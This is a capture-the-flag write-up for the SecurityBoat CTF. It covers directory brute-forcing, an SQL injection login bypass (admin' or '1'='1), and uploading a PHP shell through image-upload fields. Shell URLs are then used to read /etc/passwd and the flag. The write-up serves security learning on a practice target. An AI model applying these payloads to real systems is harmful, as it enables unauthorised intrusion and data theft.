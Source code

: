 # SecurityBoat CTF WriteUp - Jan 2024

Link for CTF: [http://ctf.securityboat.net/](http://ctf.securityboat.net/)
![image](https://github.com/aashishsec/WriteUps/assets/65489287/e7bcf2a8-0e72-43f2-b190-017e2b28e110)

## Recon:

### Without Login:

1. Tried accessing `robot.txt` and `robots.txt`, but no files were found.
![image](https://github.com/aashishsec/WriteUps/assets/65489287/7b013c44-bdd5-41d0-81c1-72e6da03e718)

3. Brute-forced the URL with `feroxbuster`.
   ```
   feroxbuster -u http://ctf.securityboat.net/
   ```
   Interesting folders found: `admin`, `JS`, `assets`.
![image](https://github.com/aashishsec/WriteUps/assets/65489287/03ebd3c7-c1e7-4802-a881-35dec47ed167)

### With Login:

1. Registered to the site with admin credentials.
2. Logged in with admin credentials.
   - Username: admin11
   - Password: 123456789
3. Redirected to [http://ctf.securityboat.net/admin/dashboard.html](http://ctf.securityboat.net/admin/dashboard.html).
4. Bypassed the login panel using SQLi Injection to get admin dashboard.
   - Payload used for SQLi: `admin' or '1'='1`
5. Got access to the admin panel.
![image](https://github.com/aashishsec/WriteUps/assets/65489287/097c9798-2407-43bc-938a-5d44dc925dfc)

## Exploitation:

1. Checked all options in the admin dashboard; found parameters like description and name vulnerable to XSS attacks, and an image upload option for products.
2. For normal users, found an option to upload a profile picture.

### Admin User (File Upload via Edit-Products):

1. Uploaded PHP reverse shell in the image option in products.
   ![Admin|Edit-Products](http://ctf.securityboat.net/assets/products/payload.php)
   ![image](https://github.com/aashishsec/WriteUps/assets/65489287/59eccdce-d54d-48b9-9e09-fb2227abc01d)

3. Enumerated the system:
![image](https://github.com/aashishsec/WriteUps/assets/65489287/19a249ef-965b-44a6-8092-1f859f741b14)

   - [List current directory](http://ctf.securityboat.net/assets/products/payload.php?cmd=pwd)
![image](https://github.com/aashishsec/WriteUps/assets/65489287/615e4256-d514-4030-ac3f-454c12beee4b)

   - [Read `/etc/passwd`](http://ctf.securityboat.net/assets/products/payload.php?cmd=cat%20/etc/passwd)
   - [Change to `/home` directory and list contents](http://ctf.securityboat.net/assets/products/payload.php?cmd=cd%20/home;ls)
![image](https://github.com/aashishsec/WriteUps/assets/65489287/91dc90a5-d53b-4fae-b25b-e39b72eca46b)
![image](https://github.com/aashishsec/WriteUps/assets/65489287/f8bdbe1d-60e3-4ad4-8245-d5c09dd47099)

   - [Read `/home/flag.txt`](http://ctf.securityboat.net/assets/products/payload.php?cmd=cat%20/home/flag.txt)
   Flag: `{Unrestr!cted_F!le_Upload_!s_Fun}`

### Normal User (File Upload via Profile Pic):

1. Uploaded PHP reverse shell in the profile pic.
   [Profile Pic Shell](http://ctf.securityboat.net/assets/profPic/payload.php)
2. Enumerated the system:
   - [Read `/etc/passwd`](http://ctf.securityboat.net/assets/profPic/payload.php?cmd=cat%20/etc/passwd)
![image](https://github.com/aashishsec/WriteUps/assets/65489287/763d8a78-5bd6-4a2a-8ffb-23d377f2dec1)
   - [Change to `/home` directory and list contents](http://ctf.securityboat.net/assets/profPic/payload.php?cmd=cd%20/home;ls)
![image](https://github.com/aashishsec/WriteUps/assets/65489287/7dc766da-5e20-4c03-b262-be6337e17007)
![image](https://github.com/aashishsec/WriteUps/assets/65489287/0845a1e0-6071-4a5a-a57a-160cc35d5e15)
   - [Read `/home/flag.txt`](http://ctf.securityboat.net/assets/profPic/payload.php?cmd=cat%20/home/flag.txt)
   Flag: `{Unrestr!cted_F!le_Upload_!s_Fun}`

I hope you find this writeup informative!
